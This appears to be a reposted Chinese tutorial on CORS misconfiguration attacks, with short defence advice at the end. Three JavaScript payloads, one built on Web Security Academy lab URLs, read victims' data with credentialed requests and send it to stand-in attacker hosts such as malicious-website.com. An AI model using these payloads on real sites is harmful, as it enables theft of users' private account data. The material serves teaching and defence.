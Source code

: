 原文链接：https://juejin.cn/post/6844903681683357710

**攻击方式**

1. CSRF :目标不是某个动作，而是该网页下的资源 cors不做限制

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

2. CSRF: 服务器可能对origin为null的情况设置了白名单，通过iframe沙箱来操作。cors限制了，但对null不做限制

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

3. XSS+CSRF: 一个子域名（同站）被允许请求cors资源，而且该子域名不做cors限制，测试该子域名可以通过参数报错返回的界面执行XSS注入，通过恶意网站让用户导向这个子域名，然后执行XSS注入，并向目标网站发起请求，将返回的结果发送回给恶意主机

```javascript
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

4. 不好描述，很高级，通过类似CSRF的方式，让用户执行恶意网站上的代码，扫描用户所在内网的提供服务的主机，然后检测出这个主机有XSS注入点，利用这个注入点嵌入iframe执行admin界面的删除用户操作。



防范方法：

主要依赖于正确的配置

1. 只允许信任的网站
2. 避免null加入白名单
3. 在内网提供的服务也不要用*号
4. CORS不能作为服务端的安全方案
